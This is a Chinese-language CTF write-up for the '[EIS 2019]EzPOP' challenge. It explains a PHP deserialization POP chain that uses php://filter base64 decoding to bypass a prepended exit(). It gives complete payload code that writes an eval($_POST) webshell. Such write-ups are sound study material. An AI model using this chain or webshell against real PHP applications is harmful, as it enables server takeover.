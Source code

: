 # \[EIS 2019]EzPOP

## \[EIS 2019]EzPOP

## 考点

* php://filter/write绕过“死亡exit”

## wp

给了源码，返回头看到PHP版本7.3。其实这里不给源码也可以做，用`arjun`可以探测参数，存在参数`src`，传入就可以看到源码了。

![](<../../.gitbook/assets/image (33) (1) (1) (1) (1).png>)

给了源码，一点一点看。首先定义两个类，然后GET的src参数，上传目录`uploads/`，最后反序列化`data`

![](<../../.gitbook/assets/image (20) (1) (1) (1).png>)

确定是反序列化，然后找`__destruct()`作为入口，可以锁定`class A`，然后`$this->autosave`为`false`，然后不断向上调用

![](<../../.gitbook/assets/image (11) (1) (1) (1).png>)

`getForStorage()`那一大块可以写成一段代码，这段代码意思举个例子解释，比如`array("0"=>array("path"=>"a"))`，处理之后就是`array("0"=>"a")`，感觉有点多此一举。再json\_encode一下，变成一个字符串。在`getForStorage()`后执行的是 `$this->store->set()`，由此跳转到`class B`

```php
    function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);
        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }
        return $contents;
    }
  $cache = array("0"=>array("path"=>"a"));
  $cleaned = cleanContents($cache);
  var_dump(json_encode([$cleaned, "2"]));
```

到这可以先写一下Ａ类的序列化

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'tmp1';
      $this->expire= 'tmp2';
      $this->store= $store;
    }
}
$b = new B();
$a = new A($b);
$a->cache = array("tmp3");
$a->complete = "tmp4";
```

然后看`class B`的set函数，接收的三个参数分别是`$name`，`$value`，`$expire`，分别与`$a->key`，`json_encode([$a->cache, "2"])`，`$a->expire`相关联。然后把`$expire`转化为整型，用`$this->options['prefix']`拼接`$name`，处理`$filename`，这里感觉也没啥用，对`$filename`和`$expire`处不处理并没有多大影响，更像是从哪个项目里复制出来的。

![](<../../.gitbook/assets/image (12) (1).png>)

然后看一下`$value`的处理，它的值应该是类似于这种`[[{"path":"a"}],2]`，或者是这种`[["a"],2]`，把它作为参数传给`$this->serialize()`，在这个函数里面可以执行任意函数，但是没有函数的参数是像`$value`那种，所以这里最好是保持空过，`$serialize`就可以是`trim`或者`strval`之类的函数

```php
    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }
        $serialize = $this->options['serialize'];
        return $serialize($data);
    }
```

接着往后看，这里的if是是否进行数据压缩，`$this->options['data_compress']`置为false，跳过这一步。`sprintf('%012d', $expire)`是把`$expire`左补齐12位，如果`$expire`是11，那么这个结果就是`000000000011`。再看这两行行，就是典型的php://filter的妙用，绕过“死亡exit”。`$data`为要写入的shell，`$filename`为`php://filter/write=convert.base64-decode/resource=shell.php`

```php
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            $data = gzcompress($data, 3);
        }
        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);
        if ($result) {
            return true;
        }
        return false;
```

在`$data =` 那一行中，可以被base64识别的是`php000000000011exit`这19个字符，要在shell中补字符直到总长度符合base64解码规范

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+");
$a->complete = 2;
```

如果这样生成代码，得到的value是`[["PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+"],2]`，前面是21个字符，中间补3个，后面补3个，最后cache是`array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa")`

完整代码

```php
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa");
$a->complete = 2;

echo urlencode(serialize($a));
```

![](<../../.gitbook/assets/image (32) (1) (1) (1).png>)

## 小结

1. [谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
2. [\[2020 新春红包题\]1](2020-xin-chun-hong-bao-ti-1.md)是它的增强版
